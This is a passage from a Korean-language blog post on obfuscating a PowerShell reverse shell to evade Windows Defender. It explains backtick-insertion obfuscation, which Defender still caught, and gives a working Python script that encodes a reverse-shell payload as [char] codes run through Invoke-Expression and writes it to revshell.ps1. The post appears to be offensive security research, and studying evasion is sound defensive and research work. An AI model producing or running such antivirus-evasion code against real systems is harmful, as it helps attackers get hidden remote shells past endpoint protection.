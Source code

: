 <br>

PowerShell에서 지원하는 백틱 이스케이프 시퀀스는 `a`, `b`, `e`, `f`, `n`, `r`, `t`, `v`, `u`, ` `, `"`, `'`, `0` 이기에 해당 문자들을 제외하고 백틱을 추가하도록 하였다.

<br>

![image](/assets/posts/250902-15.png)

스크립트를 실행하면 위와 같이 backtick이 추가된 난독화 코드를 확인할 수 있다. 생성된 `.ps1` 파일은 backtick이 추가되었음에도 불구하고 파일이 생성되자 마자 Windows Defender에 의해 차단되는 것을 확인할 수 있다.

<br>
<br>

## Ascii char assigns

PowerShell에서는 `[char]ascii_code` 형식으로 ASCII 문자를 표현할 수 있다. 예를 들어, `[char]65`는 'A'를 의미한다. 이를 활용하여 난독화된 코드를 생성할 수 있다.

<br>

```python
# ascii_char_assigns.py

def ascii_char_assigns_obfuscation(revshell_code):
    revshell_code = revshell_code.replace('\n', '')
    revshell_code = revshell_code.replace('\r', '')
    revshell_code = revshell_code.replace("'", '"')

    obfuscated_code = ''
    for char in revshell_code:
        obfuscated_code += f"[char]{ord(char)}+"

    if obfuscated_code.endswith('+'):
        obfuscated_code = obfuscated_code[:-1]

    obfuscated_code = f"$str={obfuscated_code};Invoke-Expression $str"

    return obfuscated_code

if __name__ == "__main__":
    with open('revshell.txt', 'r') as file:
        revshell_code = file.read()

        obfuscated_code = ascii_char_assigns_obfuscation(revshell_code)

        print(obfuscated_code)

        with open('revshell.ps1', 'w') as file:
            file.write(obfuscated_code)
```

